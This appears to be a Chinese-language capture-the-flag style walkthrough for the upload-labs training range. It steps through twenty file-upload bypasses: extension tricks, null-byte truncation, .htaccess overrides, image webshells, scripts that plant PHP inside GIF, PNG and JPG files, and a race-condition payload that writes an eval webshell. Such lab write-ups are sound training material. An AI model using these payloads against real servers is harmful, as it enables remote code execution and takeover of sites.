# [upload-labs](https://github.com/c0ny1/upload-labs)

---

## 免责声明

`本人撰写的手册,仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

---

## 小结

网上的文章写的很全了,主要点都有,没必要再发明轮子,在补充补充一些内容加深一下记忆

---

## Source

- [Upload-labs 20关通关笔记](https://xz.aliyun.com/t/4029)
- [upload-labs刷关记录](https://blog.csdn.net/u011377996/article/details/86776198)
- [Upload-labs通关手册](https://xz.aliyun.com/t/2435)
- [upload-labs之pass 16详细分析](https://xz.aliyun.com/t/2657#toc-10)
- [聊聊安全测试中如何快速搞定Webshell](https://www.freebuf.com/articles/web/201421.html)
- [从upload-labs总结上传漏洞及其绕过](http://poetichacker.com/writeup/%E4%BB%8Eupload-labs%E6%80%BB%E7%BB%93%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E5%8F%8A%E5%85%B6%E7%BB%95%E8%BF%87.html)

---

# 环境要求

- 操作系统: Window or Linux 推荐使用 Windows，除了 Pass-19 必须在 linux 下，其余 Pass 都可以在 Windows 上运行

- PHP 版本:  推荐 5.2.17  其他版本可能会导致部分 Pass 无法突破
- PHP 组件:  php_gd2,php_exif    部分 Pass 依赖这两个组件
- 中间件:   设置 Apache 以 moudel 方式连接

注:靶机自带 PHPstudy 环境，开个 win7 虚拟机，直接启动即可，mysql 起不来也没事，这个不需要数据库

---

# writeup
## Pass-01-js 检查
检测规则: 在客户端使用 js 对不合法图片进行检查

`payload: 直接禁用JS 或 burp 抓包修改文件后缀名`

## Pass-02-验证 Content-type

检测规则: 在服务端对数据包的 MIME 进行检查

`payload: 把 Content-Type 改为图片类型即可`

## Pass-03-黑名单绕过

检测规则: 禁止上传 .asp|.aspx|.php|.jsp 后缀文件

利用 PHP 的一些可解析后缀比如：php3 、php4、php5、phtml 等等

`payload: 上传文件后缀改为 php3 `

或者上传 `.htaccess` 文件,需要：
1. mod_rewrite 模块开启。
2. AllowOverride All

文件内容
```
<FilesMatch "shell.jpg">
  SetHandler application/x-httpd-php
</FilesMatch>
```

此时上传 shell.jpg 文件即可被当作 php 来解析。

## Pass-04-.htaccess 绕过

检测规则: 禁止上传 .php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|.cEr|.sWf|.swf 后缀文件！

`payload: 过滤了各种罕见后缀,但是没有过滤 .htaccess，用 pass-03 的 .htaccess 方法即可。`

## Pass-05-大小写绕过

检测规则: 禁止上传 .php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|.cEr|.sWf|.swf|.htaccess 后缀文件！



`payload: 过滤了 .htaccess，并且代码中后缀转换为小写被去掉了，因此我们可以上传 Php 来绕过黑名单后缀。(在 Linux 没有特殊配置的情况下，这种情况只有 win 可以，因为 win 会忽略大小写)`

## Pass-06-空格绕过



`payload: Win 下 xx.jpg[空格] 或 xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows 会默认除去空格或点此处会删除末尾的点，但是没有去掉末尾的空格，因此上传一个 .php 空格文件即可。`

## Pass-07-点绕过



`payload: 没有去除末尾的点，因此与上面同理，上传 .php. 绕过。`

## Pass-08-::$DATA 绕过



NTFS 文件系统包括对备用数据流的支持。这不是众所周知的功能，主要包括提供与 Macintosh 文件系统中的文件的兼容性。备用数据流允许文件包含多个数据流。每个文件至少有一个数据流。在 Windows 中，此默认数据流称为：$ DATA。

`payload: 上传 .php::$DATA 绕过。(仅限 windows)`

## Pass-09-.空格. 绕过



`payload: move_upload_file 的文件名直接为用户上传的文件名，我们可控。且会删除文件名末尾的点，因此我们可以结合 Pass-7 用 .php.空格. 绕过,windows 会忽略文件末尾的 . 和空格`

**另一种方法** 尝试二次上传的方式，借助 windows 平台的正则匹配规则

如下符号在 windows 平台下等效果
```
" => .
> => ?
< => *
```

首先随便上传一个 shell.php，使用抓包工具，将文件后缀修改为：`shell.php:.jpg`

此时，会在 upload 目录下生成一个名为 shell.php 的空文件：

然后，再次上传,修改数据包文件名为：`shell.<<<`，这里在 move_uploaded_file($temp_file, '../../upload/shell.<<<') 类似与正则匹配，匹配到 `.../../upload/shell.php` 文件，然后会将此次上传的文件数据写入到 shell.php 文件中，这样就成功写入我们的小马了。

## Pass-10-双写绕过



敏感后缀替换为空

`payload: 双写 .pphphp 绕过即可`

## Pass-11-00 截断



CVE-2015-2348 影响版本：5.4.x<= 5.4.39, 5.5.x<= 5.5.23, 5.6.x <= 5.6.7

exp：move_uploaded_file($_FILES['name']['tmp_name'],"/file.php\x00.jpg"); 源码中 move_uploaded_file 中的 save_path 可控，因此 00 截断即可。



## Pass-12-00 截断



img_path 依然是拼接的路径，但是这次试用的 post 方式，还是利用 00 截断，但这次需要在二进制中进行修改，因为 post 不会像 get 对 %00 进行自动解码



## Pass-13-unpack

```php
function getReailFileType($filename){
    $file = fopen($filename, "rb");
    $bin = fread($file, 2); //只读2字节
    fclose($file);
    $strInfo = @unpack("C2chars", $bin);
    $typeCode = intval($strInfo['chars1'].$strInfo['chars2']);
    $fileType = '';
    switch($typeCode){
        case 255216:
            $fileType = 'jpg';
            break;
        case 13780:
            $fileType = 'png';
            break;
        case 7173:
            $fileType = 'gif';
            break;
        default:
            $fileType = 'unknown';
        }
        return $fileType;
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_type = getReailFileType($temp_file);

    if($file_type == 'unknown'){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$file_type;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}
?>
```

从这一关开始要求上传图片马，但是没有办法直接执行图片马，需要另外的方法去实现一般是加上 php 伪协议去 getshell，常见的有 phar，zip 等等

这里可以发现源代码只是用了 unpack 这一个函数去实现对于 php 前两个字节的检测，也就是只是对文件头做检测。。。

`payload: 制作图片马 copy 1.jpg /b + 1.php /a shell.jpg`

`http://192.168.37.150/include.php?file=upload/3020190807143926.png`

## Pass-14-getimagesize()

```php
function isImage($filename){
    $types = '.jpeg|.png|.gif';
    if(file_exists($filename)){
        $info = getimagesize($filename);
        $ext = image_type_to_extension($info[2]);
        if(stripos($types,$ext)>=0){
            return $ext;
        }else{
            return false;
        }
    }else{
        return false;
    }
}
```

getimagesize() 函数将测定任何 GIF，JPG，PNG，SWF，SWC，PSD，TIFF，BMP，IFF，JP2，JPX，JB2，JPC，XBM 或 WBMP 图像文件的大小并返回图像的尺寸以及文件类型和一个可以用于普通 HTML 文件中 IMG 标记中的 height/width 文本字符串。

image_type_to_extension — 取得图像类型的文件后缀

类似上一个题目,获取了图片的相关的大小及类型，同样可以使用文件头的方式绕过

`payload: 同 Pass-13`

另一种方法: 将 PHP 木马文件，改成 `*.php;.jpg` ,抓包，给文件头部加上：GIF89a 图片头标识



## Pass-15-exif_imagetype()

```php
$image_type = exif_imagetype($filename);
```
exif_imagetype() 读取一个图像的第一个字节并检查其签名。

换了一个获取图片信息的函数

`payload: 同 Pass-13`

## Pass-16-二次渲染绕过

判断了后缀名、content-type，以及利用 imagecreatefromgif 判断是否为 gif 图片，最后再做了一次二次渲染，绕过方法可以参考先知的文章，写的很详细：https://xz.aliyun.com/t/2657 jpg 和 png 很麻烦，gif 只需要找到渲染前后没有变化的位置,然后将 php 代码写进去,就可以了。

### 上传 gif

关于检测 gif 的代码
```php
else if(($fileext == "gif") && ($filetype=="image/gif")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生成新的图片
            $im = imagecreatefromgif($target_path);
            if($im == false){
                $msg = "该文件不是gif格式的图片！";
                @unlink($target_path);
            }else{
                //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".gif";
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagegif($im,$img_path);

                @unlink($target_path);
                $is_upload = true;
            }
        } else {
            $msg = "上传出错！";
        }
```

第 71 行检测 $fileext 和 $filetype 是否为 gif 格式.

然后 73 行使用 move_uploaded_file 函数来做判断条件,如果成功将文件移动到 $target_path,就会进入二次渲染的代码,反之上传失败.

在这里有一个问题,如果作者是想考察绕过二次渲染的话,在 move_uploaded_file($tmpname,$target_path)返回 true 的时候,就已经成功将图片马上传到服务器了,所以下面的二次渲染并不会影响到图片马的上传.如果是想考察文件后缀和 content-type 的话,那么二次渲染的代码就很多余.(到底考点在哪里,只有作者清楚.哈哈)

由于在二次渲染时重新生成了文件名,所以可以根据上传后的文件名,来判断上传的图片是二次渲染后生成的图片还是直接由 move_uploaded_file 函数移动的图片.

我看过的 writeup 都是直接由 move_uploaded_file 函数上传的图片马.今天我们把 move_uploaded_file 这个判断条件去除,然后尝试上传图片马.

**payload**

将 `<?php phpinfo(); ?>` 添加到 111.gif 的尾部.成功上传含有一句话的 111.gif,但是这并没有成功.我们将上传的图片下载到本地.

可以看到下载下来的文件名已经变化,所以这是经过二次渲染的图片.我们使用16进制编辑器将其打开.

可以发现,我们在 gif 末端添加的 php 代码已经被去除.

关于绕过 gif 的二次渲染,我们只需要找到渲染前后没有变化的位置,然后将 php 代码写进去,就可以成功上传带有 php 代码的图片了.

经过对比,部分是没有发生变化的,我们将代码写到该位置.上传后在下载到本地使用16进制编辑器打开,php 代码没有被去除.成功上传图片马

### 上传 png

png 图片由 3 个以上的数据块组成.

PNG 定义了两种类型的数据块，一种是称为关键数据块(critical chunk)，这是标准的数据块，另一种叫做辅助数据块(ancillary chunks)，这是可选的数据块。关键数据块定义了 3 个标准数据块(IHDR,IDAT, IEND)，每个 PNG 文件都必须包含它们.

数据块结构


CRC(cyclic redundancy check)域中的值是对 Chunk Type Code 域和 Chunk Data 域中的数据进行计算得到的。CRC 具体算法定义在 ISO 3309 和 ITU-T V.42 中，其值按下面的 CRC 码生成多项式进行计算：x32+x26+x23+x22+x16+x12+x11+x10+x8+x7+x5+x4+x2+x+1

数据块 IHDR(header chunk)：它包含有 PNG 文件中存储的图像数据的基本信息，并要作为第一个数据块出现在 PNG 数据流中，而且一个 PNG 数据流中只能有一个文件头数据块。

文件头数据块由 13 字节组成，它的格式如下图所示。



调色板 PLTE 数据块是辅助数据块,对于索引图像，调色板信息是必须的，调色板的颜色索引从 0 开始编号，然后是 1、2……，调色板的颜色数不能超过色深中规定的颜色数（如图像色深为 4 的时候，调色板中的颜色数不可以超过 2^4=16），否则，这将导致 PNG 图像不合法。

图像数据块 IDAT(image data chunk)：它存储实际的数据，在数据流中可包含多个连续顺序的图像数据块。

IDAT 存放着图像真正的数据信息，因此，如果能够了解 IDAT 的结构，我们就可以很方便的生成 PNG 图像

图像结束数据 IEND(image trailer chunk)：它用来标记 PNG 文件或者数据流已经结束，并且必须要放在文件的尾部。

如果我们仔细观察 PNG 文件，我们会发现，文件的结尾 12 个字符看起来总应该是这样的：00 00 00 00 49 45 4E 44 AE 42 60 82

**payload**
- **写入 PLTE 数据块**

    php 底层在对 PLTE 数据块验证的时候,主要进行了 CRC 校验.所以可以再 chunk data 域插入 php 代码,然后重新计算相应的 crc 值并修改即可.

    这种方式只针对索引彩色图像的 png 图片才有效,在选取 png 图片时可根据 IHDR 数据块的 color type 辨别 .03 为索引彩色图像.

    1. 在 PLTE 数据块写入 php 代码

        

    2. 计算 PLTE 数据块的 CRC 脚本

        ```python
        import binascii
        import re

        png = open(r'2.png','rb')
        a = png.read()
        png.close()
        hexstr = binascii.b2a_hex(a)

        ''' PLTE crc '''
        data =  '504c5445'+ re.findall('504c5445(.*?)49444154',hexstr)[0]
        crc = binascii.crc32(data[:-16].decode('hex')) & 0xffffffff
        print hex(crc)
        ```
        运行结果 `526579b0`

    3. 修改 CRC 值

        

- **写入IDAT数据块**

    这里有国外大牛写的脚本,直接拿来运行即可.
    ```php
    <?php
    $p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
            0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
            0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
            0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
            0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
            0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
            0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
            0x66, 0x44, 0x50, 0x33);


    $img = imagecreatetruecolor(32, 32);

    for ($y = 0; $y < sizeof($p); $y += 3) {
    $r = $p[$y];
    $g = $p[$y+1];
    $b = $p[$y+2];
    $color = imagecolorallocate($img, $r, $g, $b);
    imagesetpixel($img, round($y / 3), 0, $color);
    }

    imagepng($img,'./1.png');
    ?>
    ```
    运行后得到 1.png

### 上传 jpg

采用国外大牛编写的脚本 jpg_payload.php
```php
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */

    $miniPayload = "<?=phpinfo();?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp =
                    substr($outStream, 0, $startPos) .
                    $miniPayload .
                    str_repeat("\0",$nullbytePayloadSize) .
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream =
                        substr($outStream, 0, $startPos) .
                        $miniPayload .
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) .
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }

    class DataInputStream {
        private $binData;
        private $order;
        private $size;

        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }

        public function seek() {
            return ($this->size - strlen($this->binData));
        }

        public function skip($skip) {
            $this->binData = substr($this->binData, $skip);
        }

        public function readByte() {
            if($this->eof()) {
                die('End Of File');
            }
            $byte = substr($this->binData, 0, 1);
            $this->binData = substr($this->binData, 1);
            return ord($byte);
        }

        public function readShort() {
            if(strlen($this->binData) < 2) {
                die('End Of File');
            }
            $short = substr($this->binData, 0, 2);
            $this->binData = substr($this->binData, 2);
            if($this->order) {
                $short = (ord($short[1]) << 8) + ord($short[0]);
            } else {
                $short = (ord($short[0]) << 8) + ord($short[1]);
            }
            return $short;
        }

        public function eof() {
            return !$this->binData||(strlen($this->binData) === 0);
        }
    }
?>
```

使用脚本处理 1.jpg,命令 php jpg_payload.php 1.jpg

使用 16 进制编辑器打开,就可以看到插入的 php 代码.将生成的 payload_1.jpg 上传.

## Pass-17-条件竞争

这一关是条件竞争的问题，这里先将文件上传到服务器，然后通过 rename 修改名称，再通过 unlink 删除文件，因此可以通过条件竞争的方式在 unlink 之前，访问 webshell。这里可以使用 burp 去发包，可以把文件内容改成下面这样

`<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd]?>');?>`

反正就是为了写文件进去就对了

两个 burp 跑一跑，就会在该文件夹下面产生新的文件了

## Pass-18-条件竞争

同样的也是一个条件竞争的问题，看一下源代码可以发现这里使用类去实现相关方法，包括查看文件后缀名，大小等等

这里面的问题存在于代码将上传文件更改名字的时候给了个时间差，让我们可以去实现这个竞争效果，同样的方法

**另一种方法**

上传名字为 `shell.php.7Z` 的文件，快速重复提交该数据包，会提示文件已经被上传，但没有被重命名。

这时在上一级目录中会存在 `shell.php.7Z` 文件，利用 Apache 解析漏洞可以直接作为 php 文件访问




## Pass-19-/. 绕过

本关考察 CVE-2015-2348 move_uploaded_file() 00 截断，上传 webshell，同时自定义保存名称，直接保存为 php 是不行的

```php
 if(!in_array($file_ext,$deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            }else{
                $msg = '上传出错！';
            }
        }else{
            $msg = '禁止保存为该类型文件！';
        }
```

查看代码，发现 move_uploaded_file() 函数中的 img_path 是由 post 参数 save_name 控制的，因此可以在 save_name 利用 00 截断绕过：

上传的文件名用 0x00 绕过。改成 xx.php[二进制00].x.jpg



**另一种方法**

move_uploaded_file 底层会调用 tsrm_realpath 函数导致，递归删除文件名最后的 /. 导致绕过了后缀名检测

上传的文件名用 `shell.php/.` 绕过。



## Pass-20-数组 +/. 绕过

```php
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {

        $is_upload = false;
        $msg = null;
        if(!empty($_FILES['upload_file'])){
            //mime check
            $allow_type = array('image/jpeg','image/png','image/gif');
            if(!in_array($_FILES['upload_file']['type'],$allow_type)){
                $msg = "禁止上传该类型文件!";
            }else{
                //check filename
                $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
                if (!is_array($file)) {
                    $file = explode('.', strtolower($file));
                }

                $ext = end($file);
                $allow_suffix = array('jpg','png','gif');
                if (!in_array($ext, $allow_suffix)) {
                    $msg = "禁止上传该后缀文件!";
                }else{
                    $file_name = reset($file) . '.' . $file[count($file) - 1];
                    $temp_file = $_FILES['upload_file']['tmp_name'];
                    $img_path = UPLOAD_PATH . '/' .$file_name;
                    if (move_uploaded_file($temp_file, $img_path)) {
                        $msg = "文件上传成功！";
                        $is_upload = true;
                    } else {
                        $msg = "文件上传失败！";
                    }
                }
            }
        }else{
            $msg = "请选择要上传的文件！";
        }

    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

这个题目用了数组 +/. 的方式去绕过，因为源代码里面含有这样的两句代码，成了关键得绕过的地方
```php
if (!is_array($file)) {
                    $file = explode('.', strtolower($file));
                }
```
```php
$file_name = reset($file) . '.' . $file[count($file) - 1];
```

这同样我们就需要满足两个条件，第一个是先得保证另外修改的名字需要满足是数组的条件，所以我们可以抓包构造数组，第二点由于后面 filename 构成的过程中由于 $file[count($file) - 1] 的作用，导致 $file[1] = NULL，所以构造文件名后相当于直接就是 xx.php/.，根据上面一题的知识，可以直接在 move_uploaded_file 函数的作用下可以将 /. 忽略，因此还是可以上传成功的。

因此 save_name 变量的两个值分别是 xx.php/，另外一个值是 jpg，其实从代码审计的角度上看，还是可控变量导致这样的后果


